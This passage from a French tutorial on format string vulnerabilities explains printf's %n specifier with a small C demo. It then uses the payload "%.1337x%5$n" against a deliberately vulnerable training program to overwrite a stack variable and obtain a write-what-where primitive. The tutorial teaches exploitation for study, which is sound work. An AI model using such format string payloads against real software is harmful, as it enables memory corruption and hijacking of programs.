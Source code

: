 Il est donc possible de faire bien plus que lire la pile : on peut récupérer des instructions qui peuvent éventuellement permettre de trouver des vulnérabilités supplémentaires.  

Ecrire en mémoire
-----------------

Mais ce genre d'attaque risque d'être fastidieux... Ce qu'il nous faut c'est [une condition write-what-where](https://www.owasp.org/index.php/Write-what-where_condition) or il existe un formateur qui correspond exactement à ce que l'on souhaite, comme indiqué dans la page de manuel de `printf`, à la section *The conversion specifier* concernant la lettre `n` :  

> The number of characters written so far is stored into the integer indicated by the int \* (or variant) pointer argument. No argument is converted.

Voici un exemple d'utilisation du format `%n` :  

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[5];
    unsigned int n, x = 1234;

    snprintf(buf, 5, "%.5d%n", x, &n);
    printf("l = %d\n", strlen(buf));
    printf("n = %d\n", n);
    printf("buf = [%s] (%d)\n", buf, sizeof buf);
    return 0;
}
```

```console
$ ./sprintf 
l = 4
n = 5
buf = [0123] (5)
```

Dans un premier temps `snprintf` a généré la chaîne `01234` de longueur 5 en appliquant le format `%.5d` qui contient une précision (derrière le point).  

Ensuite `snprintf` a copié cette longueur à l'adresse passée en argument (celle de `n`).  

Et finalement la chaîne a été tronquée (comme indiqué dans le manuel : *snprintf write at most X bytes (including the terminating null byte ('\0')) to str* avec `X` étant le second argument passé soit 5-1 = 4) pour être copiée dans buf.  

En combinant ce que l'on a vu précédemment, il est donc possible d'écrire où l'on souhaite en mémoire en combinant la méthode de placement d'adresse sur la pile et le format `%n`.  

Pour tester cela on va réécrire la valeur de `b` dans le *trainer* en utilisant `y` (son pointeur) comme adresse de destination qui est en 5ème position sur la pile :  

```console
oj@hell:~$ ./vuln "%.1337x%5\$n"
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
00000--- snip ---000001
#end  a=1, b=1337, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```
